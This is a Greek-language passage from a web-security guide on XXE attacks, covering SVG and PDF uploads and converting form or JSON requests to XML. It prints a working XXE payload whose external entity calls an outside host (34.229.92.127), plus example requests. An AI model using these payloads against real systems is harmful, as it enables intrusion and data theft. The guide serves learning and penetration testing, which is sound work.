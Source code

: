 Ελέγξτε [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe) για περισσότερες πληροφορίες!

**Σημείωση: Η πρώτη γραμμή του αρχείου ανάγνωσης ή του αποτελέσματος της εκτέλεσης θα εμφανίζεται ΜΕΣΑ στη δημιουργημένη εικόνα SVG. Επομένως, πρέπει να μπορείτε να έχετε πρόσβαση στην εικόνα που δημιουργήθηκε από το SVG.**

### **PDF - Μεταφόρτωση αρχείου**

Διαβάστε την παρακάτω ανάρτηση για να **μάθετε πώς να εκμεταλλευτείτε ένα XXE με μεταφόρτωση ενός αρχείου PDF**:

{% content-ref url="file-upload/pdf-upload-xxe-and-cors-bypass.md" %}
[pdf-upload-xxe-and-cors-bypass.md](file-upload/pdf-upload-xxe-and-cors-bypass.md)
{% endcontent-ref %}

### Content-Type: Από x-www-urlencoded σε XML

Εάν ένα αίτημα POST δέχεται τα δεδομένα σε μορφή XML, μπορείτε να δοκιμάσετε να εκμεταλλευτείτε ένα XXE σε αυτό το αίτημα. Για παράδειγμα, αν ένα κανονικό αίτημα περιέχει τα εξής:
```xml
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Τότε μπορείς να υποβάλεις το ακόλουθο αίτημα, με τον ίδιο αποτέλεσμα:
```xml
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
### Content-Type: Από JSON σε XEE

Για να αλλάξετε το αίτημα, μπορείτε να χρησιμοποιήσετε μια επέκταση του Burp με το όνομα "**Content Type Converter**". [Εδώ](https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html) μπορείτε να βρείτε αυτό το παράδειγμα:
```xml
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
"firstName": "Avinash",
"lastName": "",
"country": "United States",
"city": "ddd",
"postalCode": "ddd"
}}}
```

```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]>
<root>
<root>
<firstName>&xxe;</firstName>
<lastName/>
<country>United States</country>
<city>ddd</city>
<postalCode>ddd</postalCode>
</root>
</root>
```